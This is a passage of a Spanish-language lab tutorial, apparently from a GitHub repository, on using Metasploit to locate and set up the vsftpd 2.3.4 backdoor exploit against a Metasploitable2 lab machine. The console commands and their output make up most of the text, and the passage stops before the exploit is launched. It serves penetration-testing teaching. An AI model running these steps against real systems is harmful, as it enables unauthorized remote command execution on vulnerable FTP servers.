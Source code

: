 ```sh
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

En versiones anteriores de _Metasploit_ salía 4 o 5 herramientas con esa búsqueda, pero con el paso del tiempo sólo obtenemos un exploit resultado de.

3. Ahora que usamos _search_ ponemos usar los resultados por su **#** con el comando _use_. Mostramos la información y las opciones del exploit para saber cómo usarlo:

```sh
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 (exploit/unix/ftp/vsftpd_234_backdoor) > show info
msf6 (exploit/unix/ftp/vsftpd_234_backdoor) > show options
```

> Nota: Es este exploit, no hay un payload específico configurado por defecto, cmd/unix/interact es la herramienta para la terminal.

4. Vamos a comenzar a usar el exploit, mostrando los valores de las opciones _(RHOSTS y RPORT)_, y estableciendo el valor de _RHOST = IP Host de Metasploitable2_:

```sh
msf6 (exploit/unix/ftp/vsftpd_234_backdoor) > options
...
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                      asploit.html
   RPORT   21               yes       The target port (TCP)
...
msf6 (exploit/unix/ftp/vsftpd_234_backdoor) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
msf6 (exploit/unix/ftp/vsftpd_234_backdoor) > options
...
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.0.2.5         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                      asploit.html
   RPORT   21               yes       The target port (TCP)
...
```
